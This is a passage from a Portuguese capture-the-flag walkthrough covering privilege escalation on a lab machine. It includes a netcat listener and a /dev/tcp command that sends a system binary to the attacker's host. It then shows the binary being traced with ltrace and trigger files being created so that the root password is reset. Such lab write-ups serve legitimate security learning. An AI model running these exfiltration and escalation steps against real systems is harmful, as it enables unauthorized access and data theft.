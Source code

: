 De todos os arquivos, o **/usr/bin/reset_root** parece mais promissor.

Se dermos um cat nele, não vamos conseguir ler muita coisa, pois é binário.
Para isso, teremos que mandar uma cópia desse arquivo para a nossa máquina.
Sendo assim, abriremos outro socket com o netcat em uma outra porta.

```bash
nc -lnvp 3333 > reset_root
```

na outra aba, temos que enviar o reset_root para a nossa máquina:

```bash
cat /usr/bin/reset_root > /dev/tcp/192.168.56.1/3333
```

Agora, temos o arquivo na nossa máquina.
Para analisar a execução de um binário, podemos usar uma ferramenta chamada **ltrace**.

```bash
ltrace ./reset_root
```

Como saída, obteremos isso:

```bash
┌──(kali㉿kali)-[~]
└─$ ltrace ./reset_root
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)    = 38
access("/dev/shm/kHgTFI5G", 0)                 = -1
access("/dev/shm/Zw7bV9U5", 0)                 = -1
access("/tmp/kcM0Wewe", 0)                     = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)    = 44
+++ exited (status 0) +++

```

Veja que esse executável acessa três arquivos. Vou criar esses três arquivos e executar o reset_root de novo.

```bash
bash-5.1$ touch /dev/shm/kHgTFI5G
touch /dev/shm/kHgTFI5G
bash-5.1$ touch /dev/shm/Zw7bV9U5
touch /dev/shm/Zw7bV9U5
bash-5.1$ touch /tmp/kcM0Wewe
touch /tmp/kcM0Wewe
```

```bash
bash-5.1$ /usr/bin/reset_root
```

Como saída, temos algo muito bom:

```bash
bash-5.1$ /usr/bin/reset_root
/usr/bin/reset_root
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth

```
a senha do root foi resetada. Agora, só precisamos logar como root
